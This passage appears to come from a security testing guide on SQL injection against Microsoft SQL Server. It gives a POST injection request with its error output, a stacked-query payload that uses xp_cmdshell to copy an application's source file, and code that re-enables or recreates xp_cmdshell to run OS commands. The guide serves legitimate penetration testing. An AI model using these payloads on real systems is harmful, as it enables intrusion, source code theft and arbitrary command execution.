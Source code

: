 ### Example 3: Testing in a POST Request

SQL Injection, HTTP POST Content: `email=%27&whichSubmit=submit&submit.x=0&submit.y=0`

A complete post example (`https://vulnerable.web.app/forgotpass.asp`):

```txt
POST /forgotpass.asp HTTP/1.1
Host: vulnerable.web.app
[...]
Referer: http://vulnerable.web.app/forgotpass.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

email=%27&whichSubmit=submit&submit.x=0&submit.y=0
```

The error message obtained when a `'` (single quote) character is entered at the email field is:

```txt
Microsoft OLE DB Provider for SQL Server error '80040e14'
Unclosed quotation mark before the character string '' '.
/forgotpass.asp, line 15
```

### Example 4: Yet Another (Useful) GET Example

Obtaining the application's source code

`a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\login.aspx c:\inetpub\wwwroot\login.txt';--`

### Example 5: Custom `xp_cmdshell`

All books and papers describing the security best practices for SQL Server recommend disabling `xp_cmdshell` in SQL Server 2000 (in SQL Server 2005 it is disabled by default). However, if we have sysadmin rights (natively or by bruteforcing the sysadmin password, see below), we can often bypass this limitation.

On SQL Server 2000:

- If `xp_cmdshell` has been disabled with `sp_dropextendedproc`, we can simply inject the following code:

`sp_addextendedproc 'xp_cmdshell','xp_log70.dll'`

- If the previous code does not work, it means that the `xp_log70.dll` has been moved or deleted. In this case we need to inject the following code:

```sql
CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait int = 0) AS
    DECLARE @result int, @OLEResult int, @RunResult int
    DECLARE @ShellID int
    EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID OUT
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, @cmd, 0, @Wait
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OADestroy @ShellID
    return @result
```
